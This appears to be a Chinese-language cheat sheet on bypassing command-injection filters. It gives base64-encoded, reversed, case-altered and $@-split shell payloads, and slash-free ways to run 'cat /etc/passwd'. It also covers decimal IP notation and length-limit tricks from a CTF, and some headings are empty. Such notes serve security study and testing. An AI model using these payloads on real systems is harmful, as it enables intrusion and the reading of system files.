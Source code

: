 - 编码转换

```bash
# base64
echo "d2hvYW1pCg=="|base64 -d|sh # whoami
echo "d2hvYW1pCg=="|base64 -d|$0 # whoami
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64

# 逆序,bash
$(rev<<<'imaohw') # whoami

# 大小写
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi";printf %s "${a,,}")

# 十六进制

```

- 位置参数的特殊变量`$@`和`$*`

`$@`和`$*`代表全部的位置参数，当没有位置参数时，扩展为空。如，``

```bash
who$@ami
who$*ami
```

### 绕过管道符`|`

```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

### 反斜杠`\`和斜杠`/`绕过

```bash
# ${varname:offset:length} 子字符串
cat ${HOME:0:1}etc${HOME:0:1}passwd

# 字符替换
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

### 绕过 IP 限制

```bash
127.0.0.1 == 2130706433
```

### 绕过长度限制

#### 15 位

#### 命令执行 5 位 （HITCON 2017 Quals Babyfirst Revenge）
